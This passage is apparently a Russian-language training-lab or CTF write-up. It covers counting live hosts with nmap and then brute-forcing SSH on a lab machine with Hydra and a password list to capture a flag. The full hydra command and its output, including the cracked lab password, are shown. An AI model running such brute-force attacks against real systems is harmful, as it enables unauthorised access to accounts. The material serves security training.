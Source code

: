```bash
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 4096 IP addresses (6 hosts up) scanned in 21.09 seconds
```

Но правильный ответ почему-то 5, вероятно без учета 10.184.48.1.

### TIP

Можно решить эту задачу и вот так: nmap -sn <network> | grep "Host is up" | wc -l

# Брутфорс SSH

Hydra (также известный как THC-Hydra) — это быстрый и гибкий инструмент для взлома паролей, используемый для перебора учетных данных различных сетевых сервисов. Hydra пытается угадать или "взломать" пароль, используя список возможных паролей (wordlist) для заданного сервиса (например, SSH, FTP, HTTP и др.), пока не найдет правильный или не исчерпает список.

Используйте предустановленный инструмент hydra и базу паролей, находящуюся в файле /root/passwords.txt, чтобы выполнить brute-force атаку на SSH пользователя userdefbox@10.184.48.4.

Получите флаг с 10.184.48.4, он находится в файле: /flag.txt

### Solve

```bash
root@attackerLogin:~# hydra -l userdefbox -P /root/passwords.txt 10.184.48.4 -s 22 ssh -vV -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-14 13:13:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 94 login tries (l:1/p:94), ~24 tries per task
[DATA] attacking ssh://10.184.48.4:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://userdefbox@10.184.48.4:22
[INFO] Successful, password authentication is supported by ssh://10.184.48.4:22
[ATTEMPT] target 10.184.48.4 - login "userdefbox" - pass "123456" - 1 of 94 [child 0] (0/0)
.
.
.
[22][ssh] host: 10.184.48.4   login: userdefbox   password: password123!@#
[STATUS] attack finished for 10.184.48.4 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-14 13:17:28
```
